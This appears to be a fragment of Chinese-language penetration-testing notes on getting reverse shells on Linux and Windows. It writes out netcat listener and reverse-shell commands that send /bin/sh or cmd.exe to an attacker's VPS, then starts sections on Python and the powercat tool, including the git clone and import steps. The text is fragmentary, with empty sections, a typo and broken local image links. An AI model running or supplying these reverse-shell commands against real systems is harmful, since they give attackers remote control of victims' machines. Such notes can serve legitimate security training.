 受害主机，执行指令，将shel发送（反弹）给攻击者，“内网”可访问到“外网”时

nc -lvp 9999

![image-20210303224104756](E:\1.学习文档\4-Windows\image\image-20210303224104756.png)

nc vps 9999 -e /bin/sh

nc vps 9999 -e ‪C:\Windows\system32\cmd.exe

![image-20210303224132466](E:\1.学习文档\4-Windows\image\image-20210303224132466.png)

6.当环境不够完善是如何获取反向shell呢

6.1 借用Python

Python



### 3.3.3 powercat

win下的nc。

```
❯ git clone https://github.com/besimorhino/powercat.git

❯ Import-Module .\powercat.ps1

```

